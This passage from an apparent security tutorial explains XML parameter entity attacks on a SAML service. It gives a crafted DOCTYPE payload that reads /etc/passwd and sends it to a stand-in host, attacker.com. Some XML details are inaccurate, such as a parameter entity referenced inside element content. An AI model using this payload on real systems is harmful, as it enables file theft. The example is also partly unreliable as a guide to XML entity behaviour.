In this example, the attacker can extract the desired file from the server under the control of the target SAML service using External Entity Attack.

**Parameter Entity Attack** : An attack method in which an attacker can access sensitive information or affect system resources by using <!ENTITY> declarations as parameter entities. In this type of attack, the attacker manipulates the parameter entities in the XML document, leading to undesirable results.

For example, let's say a SAML service is being targeted. The attacker wants to perform a Parameter Entity Attack by manipulating the parameter entities in the SAML request. The target SAML document looks like this:

```
<samlp:AuthnRequest xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
ID="1234"
Version="2.0"
IssueInstant="2023-07-01T10:00:00Z">
<saml:Issuer>https://sp.example.com</saml:Issuer>
<samlp:NameIDPolicy AllowCreate="true" />
<samlp:RequestedAuthnContext Comparison="exact">
<saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
</samlp:RequestedAuthnContext>
</samlp:AuthnRequest>

```
The attacker seeks to access sensitive information by manipulating the parameter entities in the target SAML document. For this, it creates XML content as follows:

```
<!DOCTYPE root [
<!ENTITY % parameterEntity SYSTEM "file:///etc/passwd">
<!ENTITY % payload "<!ENTITY &#x25; exfil SYSTEM 'http://attacker.com/?data=%parameterEntity;'>">
%payload;
]>
<samlp:AuthnRequest xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"
xmlns:saml="urn:oasis:names:tc:SAML:2.0:assertion"
ID="1234"
Version="2.0"
IssueInstant="2023-07-01T10:00:00Z">
<saml:Issuer>https://sp.example.com</saml:Issuer>
<samlp:NameIDPolicy AllowCreate="true" />
<samlp:RequestedAuthnContext Comparison="exact">
<saml:AuthnContextClassRef>urn:oasis:names:tc:SAML:2.0:ac:classes:Password</saml:AuthnContextClassRef>
</samlp:RequestedAuthnContext>
%exfil;
</samlp:AuthnRequest>

```
In this XML content, the attacker defines a parameterEntity and points to the file "/etc/passwd". Then it defines an external entity named payload. This definition creates an external entity named exfil, whose content is "http://attacker.com/?data=%parameterEntity;" redirects to address.
